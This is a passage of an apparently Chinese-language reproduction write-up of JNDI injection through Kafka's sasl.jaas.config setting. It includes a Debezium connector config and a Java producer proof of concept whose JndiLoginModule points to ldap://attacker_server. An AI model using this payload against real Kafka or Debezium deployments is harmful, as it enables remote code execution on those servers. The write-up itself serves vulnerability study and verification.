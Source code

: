 ```plaintext
        "topic.prefix": "aaa22",
        "debezium.source.database.history": "io.debezium.relational.history.MemoryDatabaseHistory",
        "schema.history.internal.kafka.topic": "aaa22",
        "schema.history.internal.kafka.bootstrap.servers": "kafka:9202",
    	"database.history.producer.security.protocol": "SASL_SSL",
    	"database.history.producer.sasl.mechanism": "PLAIN",
    	"database.history.producer.sasl.jaas.config": "com.sun.security.auth.module.JndiLoginModule required user.provider.url=\"ldap://aaa\" useFirstPass=\"true\" serviceName=\"x\" debug=\"true\" group.provider.url=\"xxx\";"
    }
}
```

这里直接通过将producer中配置项设置为`com.sun.security.auth.module.JndiLoginModule` 方式进行验证:

> 如果只是为了验证JNDI注入，可以不用启动kafka server，因为JndiLoginModule在还没有连接server的时候已经触发了JNDI。

* 下载kafka
* 启动server和zookeeper

```console
bin\windows\zookeeper-server-start.bat config\zookeeper.properties
bin\windows\kafka-server-start.bat config\server.properties
```
* 设置好rmi server



使用下面的代码将kafka的认证方式设置为com.sun.security.auth.module.JndiLoginModule,从而触发JndiLoginModule中的InitialContext.lookup(userProvider):

```java
public class ProducerDemo {

    public static void main(String[] args) {
        System.out.println("I am a Kafka Producer");

        // producer properties
        String bootstrapServers = "127.0.0.1:9092";

        // create Producer properties
        Map configs = new HashMap();
        configs.put(ProducerConfig.BOOTSTRAP_SERVERS_CONFIG, bootstrapServers);
        configs.put(ProducerConfig.KEY_SERIALIZER_CLASS_CONFIG, StringSerializer.class.getName());
        configs.put(ProducerConfig.VALUE_SERIALIZER_CLASS_CONFIG, StringSerializer.class.getName());
        // https://kafka.apache.org/documentation/#producerconfigs_sasl.jaas.config
        configs.put("SSL","true");
        configs.put("sasl.mechanism","PLAIN");
        configs.put("security.protocol","SASL_SSL");
        configs.put("sasl.jaas.config","com.sun.security.auth.module.JndiLoginModule required user.provider.url=\"ldap://attacker_server\" useFirstPass=\"true\" serviceName=\"x\" debug=\"true\" group.provider.url=\"xxx\";");

        //Create the Kafka producer
        KafkaProducer<String, String> producer = new KafkaProducer<>(configs);
        // create a producer record
        ProducerRecord<String, String> producerRecord = new ProducerRecord<>("first_topic", "hello world");
        // send data - asynchronous
        producer.send(producerRecord);
        // flush data - synchronous
        producer.flush();
        // flush and close producer
        producer.close();
    }
}
```